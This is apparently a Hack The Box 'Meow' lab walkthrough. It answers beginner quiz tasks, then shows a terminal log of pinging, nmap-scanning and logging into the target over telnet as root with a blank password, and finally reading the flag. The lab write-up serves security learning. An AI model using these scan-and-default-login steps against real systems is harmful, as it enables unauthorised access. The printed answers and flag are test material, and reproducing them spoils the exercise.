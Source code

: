 Task 1

What does the acronym VM stand for? 
Virtual machine
https://en.wikipedia.org/wiki/Virtual_machine

 Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell. 

terminal
https://en.wikipedia.org/wiki/Terminal_emulator


 Task 3

What service do we use to form our VPN connection into HTB labs? 
openvpn
https://en.wikipedia.org/wiki/OpenVPN

 Task 4

What tool do we use to test our connection to the target with an ICMP echo request? 
ping
https://en.wikipedia.org/wiki/Ping_(networking_utility)
 Task 5

What is the name of the most common tool for finding open ports on a target? 
nmap
https://en.wikipedia.org/wiki/Nmap

 Task 6

What service do we identify on port 23/tcp during our scans? 
telnet
https://en.wikipedia.org/wiki/Telnet

 Task 7

What username is able to log into the target over telnet with a blank password? 
root
https://en.wikipedia.org/wiki/Superuser


root flag
ping machine
```
[cry_baby@ace ~]$ ping 10.129.190.255
PING 10.129.190.255 (10.129.190.255) 56(84) bytes of data.
64 bytes from 10.129.190.255: icmp_seq=1 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=2 ttl=63 time=10.5 ms
64 bytes from 10.129.190.255: icmp_seq=3 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=4 ttl=63 time=10.3 ms
^C
--- 10.129.190.255 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 10.216/10.303/10.452/0.093 ms
[cry_baby@ace ~]$ nmap -sV 10.129.190.255
Starting Nmap 7.95 ( https://nmap.org ) at 2024-08-14 21:50 EDT
Nmap scan report for 10.129.190.255
Host is up (0.010s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.40 seconds
[cry_baby@ace ~]$ telnet 10.129.190.255
Trying 10.129.190.255...
Connected to 10.129.190.255.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█



Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 15 Aug 2024 03:19:20 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.190.255
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 





```

















































































